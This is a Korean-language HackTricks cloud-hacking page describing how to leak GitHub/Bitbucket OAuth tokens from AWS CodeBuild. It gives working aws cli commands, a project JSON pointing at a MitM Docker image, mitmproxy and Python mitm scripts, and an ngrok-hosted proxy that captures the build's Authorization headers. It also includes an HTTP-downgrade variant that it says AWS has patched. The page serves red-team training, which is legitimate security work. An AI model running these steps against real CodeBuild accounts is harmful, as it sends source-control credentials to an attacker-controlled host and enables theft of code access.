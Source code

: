 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket에 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

만약 계정에 Github에 대한 인증이 설정되어 있다면, Codebuild가 프로젝트 빌드를 실행하기 위해 **특정 도커 이미지를 사용하도록** 하여 **엑스필트레이트**할 수 있습니다 **액세스** (**GH 토큰 또는 OAuth 토큰**).

이를 위해 **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **env 변수 `https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`**을 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며, **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자신의 Docker MitM 이미지 생성 및 업로드**
* 리포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정한 후 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* **`ngrok`**을 사용하여 `ngrok tcp 4444`로 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지가 빌드되면, **공개 리포지토리에 업로드**합니다 (Dockerhub, ECR...).
2. **환경 설정**
* **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트가 **이전에 생성된 Docker 이미지를 사용하도록** 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정**

* **Github 리포지토리**에 명시된 대로 다음과 같은 방법을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이것은 aws cli를 사용하여 다음과 같이 수행할 수도 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP 프로토콜을 통해~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주 중 어느 시점에 AWS에 의해 수정되었습니다 (금요일인 것 같습니다). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰**을 유출할 수 있거나, 권한이 OAuth를 통해 구성된 경우 **코드에 접근하는 데 사용되는 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 자신의 머신을 가리키는 환경 변수 **http\_proxy** 및 **https\_proxy**를 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github 리포지토리의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **credentials**가 mitm 포트로 **명확한 텍스트**(base64)로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 머신에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (남용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
